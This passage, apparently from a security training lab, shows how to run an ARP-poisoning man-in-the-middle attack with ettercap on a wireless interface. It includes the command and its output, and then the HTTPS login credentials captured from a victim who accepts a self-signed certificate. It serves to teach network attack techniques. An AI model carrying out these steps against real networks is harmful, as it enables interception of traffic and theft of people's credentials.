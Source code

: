 <td>use this network interface</td>
</tr>
<tr>
<td><code>--certificate &lt;file&gt;</code></td>
<td>certificate file to use for SSL MiTM</td>
</tr>
<tr>
<td><code>--private-key &lt;file&gt;</code></td>
<td>private key file to use for SSL MiTM</td>
</tr>
</tbody>
</table>
<p>We use the following command to perform the attack, specifying the desired options:</p>
<pre><code class="language-shell-session">[!bash!]$ ettercap -T -q -M ARP -i wlan1

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 wlan1 -&gt; 02:00:00:00:02:00
	  192.168.0.1/255.255.255.0


Ettercap might not work correctly. /proc/sys/net/ipv6/conf/all/use_tempaddr is not set to 0.
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================&gt;| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : ANY (all the hosts in the list)

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...
</code></pre>
<p>In the above command, we used  <code>-T</code> for text mode, <code>-q</code> for quiet mode to suppress packet content display, <code>-M ARP</code> to perform a MiTM attack using ARP spoofing and <code>-i</code> to select the wlan1 interface.</p>
<p>Once the sniffing is enabled, if clients visit an SSL-secured website and enter their credentials, those credentials will be captured in the Ettercap logs. However, the success of this technique relies on the client accepting a self-signed certificate when accessing the site.</p>
<pre><code class="language-shell-session">Text only Interface activated...
Hit 'h' for inline help

HTTP : 192.168.0.195:443 -&gt; USER: &lt;SNIP&gt;  PASS: &lt;SNIP&gt;  INFO: 192.168.0.195/received.php
CONTENT: username=&lt;SNIP&gt;&amp;password=&lt;SNIP&gt;&amp;submit=Sign+In
</code></pre>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
